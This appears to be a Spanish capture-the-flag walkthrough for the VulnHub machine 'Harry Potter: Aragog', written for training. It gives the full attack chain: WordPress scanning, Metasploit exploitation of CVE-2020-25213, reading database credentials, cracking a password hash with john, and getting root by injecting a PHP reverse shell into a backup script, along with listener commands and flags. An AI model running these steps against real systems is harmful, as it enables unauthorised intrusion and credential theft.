 <h1 align="center">
<br>
  <img src="https://www.hp-lexicon.org/wp-content/uploads/2016/06/goodbye-friends-of-hagrid.jpg" alt="Front-End Checklist" width="300">
  <br>
  Harry Potter: Aragog
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@time4ster</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/harrypotter-aragog-102,688/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz]()
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress]()
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Metasploit]()
- [Post-explotación](#post-explotación)
  - [Movimiento Lateral]()
    - [Mysql]()
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [Reverse Shell]()
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.7```

### Fuzz

Fuzzearemos la web para ver quw tiene:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.7/FUZZ```

Despues fuzzearemos el **/blog/**:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.7/blog/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que es un **wordpress** usaremos el **wpscan**:

```wpscan --url http://192.168.221.7/blog/ --plugins-detection aggressive```

Esto es lo que recibimos con el wpscan:
```
        wp-file-manager
         | Location: http://192.168.221.7/blog/wp-content/plugins/wp-file-manager/
         | Last Updated: 2021-03-30T06:37:00.000Z
         | Readme: http://192.168.221.7/blog/wp-content/plugins/wp-file-manager/readme.txt
         | [!] The version is out of date, the latest version is 7.1.1
```

## Explotación de vulnerabilidades

A la hora de explotar esta vulnerabilidad he encontrado este [exploit](https://www.exploit-db.com/exploits/49178) que utilizaremos para ver que CVE podemos buscar en el metasploit.

### Metasploit

Ahora en metasploit configuraremos esto para explotar esa vulnerabilidad:
```
        search CVE-2020-25213
        use 0
        set rhosts 192.168.221.7
        set lhost 192.168.221.4
        set targeturi /blog
        exploit
```

Con esto hemos conseguido ser el usuario **www-data**

## Post-explotación

## Movimiento Lateral

Desde donde estamos podemos conseguir la primera flag del usuario **hagrid98**

Aquí la primera flag: **horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}**

Ahora buscando encontraremos esta ruta que tiene buena pinta: ```/etc/wordpress```

El contendio del archivo **config-default.php** es este:

 ```
        <?php
        define('DB_NAME', 'wordpress');
        define('DB_USER', 'root');
        define('DB_PASSWORD', 'mySecr3tPass');
        define('DB_HOST', 'localhost');
        define('DB_COLLATE', 'utf8_general_ci');
        define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
        ?>
 ```
 
 Como podemos ver hay unas credenciales de una base de datos.

### Mysql

Como estamos en un sessión en meterpreter utilizaremos estos siguientes comandos para leer los datos de la base de datos:

```
        shell
        mysql -u root -p
        mySecr3tPass
        use wordpress;
        select*from wp_users;
 ```
 
 El resultado de la tabla **wp_users** es este:
 
 ```
                1       hagrid98        $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.      wp-admin        hagrid98@localhost.local                2021-03-31 14:21:02             0       WP-Admin
```

Con el hash que hemos conseguido lo creckearemos con el john:

```john --wordlist=/opt/wordlists/rockyou.txt hash```

El resultado:

```
password123      (?)
```

Ahora nos conectaremos por ssh al usuario y ya seremos **hagrid98**

## Búsqueda de vulnerabilidades

Ahora comenzaremos a enumerar todo lo possible hasta encontrar en la carpeta **/opt** con el comando ```ls -a``` un archivo llamado **.backup.sh** que contiene esto:

```
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
```

## Explotación de vulnerabilidades

Para explotar esta vulnerabilidad nos crearemos una reverse shell y haremos que el script ejecute esa shell.

### Reverse Shell

Crearemos una [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y la modificaremos la dirección ip y el puerto, añadiendo poniendo el puerto en escucha en otra terminal con este comando: ```rlwrap nc -nvlp 1234```

Añadiremos al script esta línea para que ejecute la reverse shell:
```php /tmp/php-reverse-shell.php```

Gracias a esto somos **root** y podemos leer la segunda flag:

```
  ____                            _         _       _   _
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/


Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Easy
Machine Name: Aragog
Horcruxes Hidden in this VM: 2 horcruxes

You have successfully pwned Aragog machine.
Here is your second hocrux: horcrux_{MjogbWFSdm9MbyBHYVVudCdzIHJpTmcgZGVTdHJPeWVkIGJZIERVbWJsZWRPcmU=}




 #For any queries/suggestions feel free to ping me at email: time4ster@protonmail.com
```

## Información Adicional

Páginas web utilizadas:

- [WordPress CVE-2020-25213](https://www.exploit-db.com/exploits/49178) - Exploit para saber que CVE podemos buscar

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP


**[⬆ back to top](#-----harry-potter-aragog-)**

